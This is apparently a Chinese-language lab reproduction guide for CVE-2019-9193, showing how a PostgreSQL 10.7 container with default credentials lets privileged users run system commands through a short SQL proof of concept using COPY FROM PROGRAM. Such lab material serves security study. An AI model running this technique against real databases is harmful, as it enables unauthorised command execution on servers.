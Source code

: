 # PostgreSQL 高权限命令执行漏洞（CVE-2019-9193）

PostgreSQL 是一个功能强大的开源关系型数据库系统。在9.3到11版本中存在一处"特性"，管理员或具有"COPY TO/FROM PROGRAM"权限的用户，可以使用这个特性执行任意系统命令。

参考链接：

- <https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5>

## 环境搭建

执行以下命令启动存在漏洞的 PostgreSQL 10.7 服务器：

```
docker compose up -d
```

服务器将在默认的PostgreSQL端口5432上启动并监听，默认账号密码为postgres/postgres。

## 漏洞复现

首先连接到PostgreSQL服务器，并执行以下验证概念（POC）：

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

`FROM PROGRAM`语句将执行`id`命令并将结果保存在`cmd_exec`表中：

![](1.png)
